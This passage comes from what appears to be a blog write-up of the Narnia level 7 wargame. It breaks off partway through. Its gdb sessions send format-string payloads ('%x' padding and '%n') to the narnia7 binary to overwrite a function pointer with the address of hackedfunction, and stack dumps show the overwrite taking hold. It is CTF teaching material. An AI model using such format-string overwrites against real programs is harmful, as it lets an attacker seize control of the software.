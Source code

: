 ```sourceCode
(gdb) r $(python -c "print 'aaaabbbb' + '%x'*7")
Starting program: /games/narnia/narnia7 $(python -c "print 'aaaabbbb' + '%x'*7")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0: 0xffffd610  0x00000080  0xffffd8a2  0x08048238
0xffffd600: 0xffffd668  0xf7ffda94  0x00000000  0x080486e0
0xffffd610: 0x61616161  0x62626262  0x38343038  0x66383332
0xffffd620: 0x64666666  0x66383636  0x64666637  0x30343961
0xffffd630: 0x38343038  0x36306536  0x36313631  0x36313631
0xffffd640: 0x36323632  0x00323632  0x00000000  0x00000000
0xffffd650: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd660: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd670: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd680: 0x00000000  0x00000000  0x00000000  0x00000000
```

So at `0xffffd60c` is the address of `goodfunction`. We need to overwrite that to point to `0x8048706`, our `hackedfunction`. So as before in [level 05](https://unlogic.co.uk/2015/04/10/solving-narnia-part-2/#level-05) we use `%n` to try and overwrite this value.

```sourceCode
(gdb) r $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*6 + '%n'")

Starting program: /games/narnia/narnia7 $(python -c "print 'aaaa\x0c\xd6\xff\xff' + '%x'*6 + '%n'")
goodfunction() = 0x80486e0
hackedfunction() = 0x8048706

before : ptrf() = 0x80486e0 (0xffffd60c)
I guess you want to come to the hackedfunction...

Breakpoint 1, 0x08048685 in vuln ()
(gdb) x/40wx $esp
0xffffd5f0: 0xffffd610  0x00000080  0xffffd8a2  0x08048238
0xffffd600: 0xffffd668  0xf7ffda94  0x00000000  0x0000002f
0xffffd610: 0x61616161  0xffffd60c  0x38343038  0x66383332
0xffffd620: 0x64666666  0x66383636  0x64666637  0x30343961
0xffffd630: 0x38343038  0x36306536  0x36313631  0x00313631
0xffffd640: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd650: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd660: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd670: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffd680: 0x00000000  0x00000000  0x00000000  0x00000000
```

The value of _2f_ at `0xffffd60c` shows us that our overwrite was successful and we wrote the value of _47_. We need to write `0x8048706` which is `134514438` in decimal. So let's add our `%d` in and remember to adjust the number of `%x`s too, so we can see how much padding we need
